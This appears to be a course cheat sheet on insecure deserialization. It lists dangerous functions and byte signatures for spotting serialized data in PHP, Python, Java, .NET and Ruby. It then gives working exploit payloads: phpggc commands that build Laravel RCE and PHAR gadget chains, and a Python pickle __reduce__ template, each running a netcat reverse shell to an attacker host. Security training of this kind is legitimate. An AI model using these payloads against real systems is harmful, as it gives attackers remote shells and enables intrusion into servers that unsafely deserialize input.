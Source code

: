 ## White-Box

| Function | Language |
| --- | --- |
| `unserialize()` | PHP |
| `pickle.loads()` | Python (Pickle) |
| `jsonpickle.loads()` | Python (JSONPickle) |
| `yaml.load()` | Python (PyYAML, ruamel.yaml) |
| `readObject()` | Java |
| `Deserialize()` | C#/.NET |
| `Marshal.load()` | Ruby |

## Black Box

| Bytes | Language |
| --- | --- |
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.` | Python 2.x (Pickle Protocol 0) |
| `80 01` (Hex) | Python 2.x (Pickle Protocol 1) |
| `80 02` (Hex) | Python 2.3+ (Pickle Protocol 2) |
| `80 03` (Hex) | Python 3.8+ (Pickle Protocol 4) |
| `80 04 95` (Hex) | Python 3.x (Pickle Protocol 5) |
| `["Test", "Data", [4], "ACADEMY"]` | Python 2.7 / 3.6+ (JSONPickle |
| `- Test\n- Data\n- - 4\n- ACADEMY\n` | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64) | Java |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64) | C#/.NET |
| `04 08` (Hex) | Ruby |

# Exploiting PHP Deserialization

## PHPGGC

Code: bash

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

Code: python

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```